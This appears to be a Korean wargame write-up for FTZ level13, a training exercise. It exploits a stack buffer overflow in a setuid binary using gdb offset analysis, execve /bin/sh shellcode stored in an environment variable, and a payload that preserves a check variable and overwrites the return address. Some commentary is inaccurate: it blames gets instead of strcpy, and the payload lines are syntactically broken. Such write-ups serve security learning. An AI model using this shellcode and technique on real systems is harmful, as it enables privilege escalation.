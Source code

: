 # FTZ Level13

#### ID : level13 PW: have no clue
<br>

**먼저 ```ls -l```을 이용해 어떤 파일이 있는지 살펴보자**<br> 
attackme 프로그램에 level13의 권한으로 setuid가 걸려있는 것을 확인할 수 있다.<br><br>
우선 hint의 내용을 보자<br>
```cat hint```<br>
```c
#include <stdio.h>

int main(int argc, char *argv[])
{
      long i=0x1234567;
      char buf[1024];
      
      setreuid(3094, 3094);
      if(argc>1)                  #argv로 받는 입력이 1개 이상 있다면
      strcpy(buf, argv[1]);       #입력 buf로 복사
      
      if(i != 0x1234567){
      printf(" Warning: Buffer Overflow !!! \n");
      kill(0, 11);                #프로그램 종료
      }
}
```
```gets``` 함수에서 BOF가 일어날 수 있다!!<br>
또한 hint를 보면 i라는 변수가 0x1234567이 아닐 경우 프로그램을 종료시키는 것을 보아 BOF를 검사하고 있다.<br>

우리의 목적을 생각해보자.<br>
버퍼에 버퍼크기보다 넘치는 양을 담으면서 i는 0x1234567로 만들어줘야한다.  
그렇다면..!!!<br>
1. buf[1024]에서 i까지의 거리 구하기, i에서 ret까지의 거리 구하기
2. i를 0x1234567로 바꾸기
3. 환경 변수 선언하고 주소 얻기
4. 페이로드 작성하고 공격!

**attackme 코드를 디버깅해야하기 때문에 tmp폴더로 복사하자.**<br>
```cp attackme tmp```<br><br>
**그리고 디버깅을 해보자**<br>
```gdb -q attackme```<br>
```disas main```<br>

<main+3>을 보면 0x418만큼의 공간을 만들고 있다. 0x418은 10진수로 1048이다.<br>
i변수는 4byte, buf배열은 1024byte인데 1048을 할당했다는 것은 20byte만큼의 dummy가 있다는 것!<br>
dummy가 어디에 위치해 있는지 찾아봐야겠다.<br>
<main+61>을 보면 strcpy가 호출되고 있다. strcpy의 인자로 buf가 들어가는데!!<br>
<main+60> <main+54>를 보면 eax가 push되는데 그 eax의 주소가 0xfffffbe8인 것을 알 수 있다.<br>
그렇다! **0xfffffbe8**이 바로 buf의 주소다! 이는 ebp로부터 -1048이다.<br>

i의 위치도 찾아보자.<br>
<main+69>를 보면 0x1234567과 0xfffffff4를 비교하고 있다. **0xffffff4**가 i의 주소인 것이다.<br>
i는 ebp로부터 -12에 위치하고 있는 것이다.<br>

이제 buf에서 i까지의 거리를 구하면 1048-12=1036인 것을 알 수 있다.<br>
*( 0xffffff4 - 0xffffbe8해도 된다.)*<br>

그렇다면 우리가 작성할 페이로드는 다음과 같다고 할 수 있다.<br>
**"A"*(buf~i까지 거리)+0x1234567+"A"*(i에서 ret까지의 거리)+쉘 주소**<br>

**자 이제 다음과 같이 환경변수를 작성해보자.** <br>
쉘 코드는 구글에서 돌아다니는 25byte짜리를 가져왔다. <br>
*(다음에 쉘 코드에 대해 더 공부해봐야겠다....)*<br>
```
export shellcode=$(python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e
\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
```

**이제 쉘 코드의 주소를 알아보자**<br>
```vi shell.c``` vi로 쉘 주소 알아내는 코드를 작성해보자<br>
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[1]){
      printf("%p\n", getenv("shellcode"));
      return 0;
}
```
그리고 만든 c코드를 컴파일 한 후 <br>
```gcc -o shell shell.c```<br>
실행시킨다!<br>
```./shell```<br>
그럼 주소가 떨어진다<br>
필자의 경우 **0xbffffef4**였다.<br>

**이제 페이로드를 작성해보자.**<br>
```./attackme (python -c 'print "A"*1036+"\x67\x45\x23\x01+"A"*12+"\xf4\xfe\xff\xbf"')```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```./attackme (python -c 'print "A"*1036+"\x67\x45\x23\x01+"A"*12+"\xf4\xfe\xff\xbf"')```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level14 Password is "~~". 라고 나올 것이다!!
